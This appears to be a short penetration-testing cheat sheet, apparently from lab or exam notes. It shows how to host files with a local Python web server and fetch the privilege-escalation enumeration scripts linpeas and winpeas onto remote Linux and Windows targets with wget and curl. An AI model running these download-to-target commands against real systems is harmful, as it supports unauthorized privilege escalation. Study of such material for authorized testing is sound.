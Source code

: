 LOCAL:

```python-file-send
python3 -m http.server 80
```

Remote Linux:

```
wget http://192.168.49.59/linpeas.sh -O /tmp/linpeas.sh
chmod +x /tmp/linpeas.sh
```

Remote Windows:

```
curl http://192.168.49.59/winpeas.bat > winpeas.bat
```